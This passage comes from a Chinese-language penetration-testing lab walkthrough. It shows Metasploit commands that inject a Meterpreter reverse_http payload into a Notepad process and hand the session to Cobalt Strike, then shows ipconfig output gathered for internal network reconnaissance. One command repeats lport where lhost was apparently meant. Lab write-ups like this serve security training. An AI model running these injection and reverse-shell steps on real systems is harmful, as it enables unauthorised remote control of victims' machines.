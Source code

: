 3. MSF使用`payload_inject` 模块
    
    ```python
    meterpreter > bg
    [*] Backgrounding session 1...
    msf6 exploit(multi/handler) > use exploit/windows/local/payload_inject 
    msf6 exploit(windows/local/payload_inject) > set payload windows/meterpreter/reverse_http
    msf6 exploit(windows/local/payload_inject) > set lport 192.168.111.150
    msf6 exploit(windows/local/payload_inject) > set lport 80
    msf6 exploit(windows/local/payload_inject) > set disablepayloadhandler true 
    msf6 exploit(windows/local/payload_inject) > set prependmigrate true 
    msf6 exploit(windows/local/payload_inject) > set session 1
    msf6 exploit(windows/local/payload_inject) > run
    [*] Running module against WEB
    [*] Spawned Notepad process 3584
    [*] Injecting payload into 3584
    [*] Preparing 'windows/meterpreter/reverse_http' for PID 3584
    ```
    
4. 然后回到CS就可以看到已经将主机派生过来了
    
    ![image.png](image%2025.png)
    

### 内网信息收寻

1. 网络配置信息
    
    ```python
    C:\Oracle\Middleware\user_projects\domains\base_domain>ipconfig
    Windows IP Configuration
    Ethernet adapter  2:
       Connection-specific DNS Suffix  . : 
       Link-local IPv6 Address . . . . . : fe80::d153:9eef:2b9e:1c80%13
       IPv4 Address. . . . . . . . . . . : 10.10.10.80
       Subnet Mask . . . . . . . . . . . : 255.255.255.0
       Default Gateway . . . . . . . . . : 10.10.10.1
    Ethernet adapter :
       Connection-specific DNS Suffix  . : 
       Link-local IPv6 Address . . . . . : fe80::2836:b233:6919:8d8a%11
       IPv4 Address. . . . . . . . . . . : 192.168.111.80
       Subnet Mask . . . . . . . . . . . : 255.255.255.0
       Default Gateway . . . . . . . . . : 192.168.111.1
    ```
    